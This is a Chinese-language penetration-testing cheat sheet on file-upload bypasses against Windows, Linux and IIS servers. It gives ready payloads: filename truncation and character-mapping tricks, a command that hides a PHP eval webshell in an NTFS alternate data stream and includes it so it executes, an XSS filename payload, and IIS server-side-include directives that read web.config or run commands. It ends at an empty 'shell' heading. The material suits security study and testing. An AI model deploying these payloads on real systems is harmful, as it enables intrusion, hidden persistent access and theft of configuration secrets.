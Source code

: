 ```

```

# 0x02 window  
## 1.截断  
```
window 文件命名规范   #https://docs.microsoft.com/zh-cn/windows/desktop/FileIO/naming-a-file  
window8.3能用但是会重命名为web~1.con     Note 1: Windows 8.3 feature could also be used but it would rename the web.config file to web~1.con in the end.
不能直接上传带有< >的文件，只能覆盖他们   Note 2: Asterisk and question mark symbols cannot be used directly as the file system rejects them.
尽量手动去输出，而不是简单的复制粘贴      Note 3: Sometimes WordPress replaces double and single quotation marks with visually similar symbols. Therefore, it is recommended to type the vectors yourself in Burp Suite or other proxies that you use instead of copy/paste them directly from here.
PHP Windows     #也可以用来文件包含
>       ?       #Greater-than symbol (closing angle bracket “>”) TO a question mark (“?”)
<       *       #Less-than symbol (opening angle bracket “<”) TO an asterisk symbol (“*”)
"       .       #Double quotation mark (""") TO a dot character ("."")   

1.php%20(url decode)    1.php.    1.php%00(url decode)  #生成1.php文件
1.php:aaa               #生成空文件 前提是该文件不存在
1.ph< or 1.ph>          #生成php webshell文件。

echo ^<?php @eval(request[caidao])?^>  > index.php:hidden.jpg
这样子就生成了一个不可见的shell hidden.jpg，常规的文件管理器、type命令，dir命令、del命令发现都找不出那个hidden.jpg的。我们可以在另外一个正常文件里把这个ADS文件include进去，<?php include(‘index.php:hidden.jpg’)?>，这样子就可以正常解析我们的一句话了
```
## 2.ads文件流  
1.php::$DATA    #文件流 生成1.php文件  图片名字:流的名字:流类型
# 0x03 linux  
## 1.文件上传xss
```
"><img src=# onerror=alert(1)>.jpg   #上传输出文件名导致xss linux 调用文件处也可以 可以在w3school测试https://www.w3schools.com/jsref/tryit.asp?filename=tryjsref_fileupload_value  
linux 上传php不解析 pHp绕过
```
# 0x04 IIS
## 1.xss
根据web server服务器fuzz一些不常见的后缀名，同样可以导致xss,详情可以参考这篇文章https://mike-n1.github.io/ExtensionsOverview  
basic    .cer .hxt .htm  .stm  
xml    .dtd .mno .vml .xsl .xht .svg .xml .xsd .xsf .svgz .xslt .wsdl .xhtml   
## 2.file_include or command_exec 
默认情况下，IIS也支持SSI(Server-Side Include)扩展，SSI是为WEB服务器提供的一套命令，这些命令只要直接嵌入到HTML文档的注释内容之中即可，由于安全原因，默认情况下命令会被禁止。  
**若服务器不支持.shtml #IIS 角色服务-应用程序开发-在服务器端包含图片点击安装角色即可**   
https://docs.microsoft.com/en-us/iis/configuration/system.webserver/serversideinclude  
```
<!--#include file="web.config"-->   //可以用来读文件
<!--#include virtual="/includes/header.html" --> //也是读文件 绝对路径
<!--#exec cmd="ipconfig"--> //是否可以用来执行命令 默认情况不会开启 需要配置相关数据  #win2008 IIS7尝试开启失败
Extensions for SSI: .stm .shtm .shtml   #iis常见的一般自定义配置值 其他如apache自己配置 一般为.shtml  
```
## 3.shell  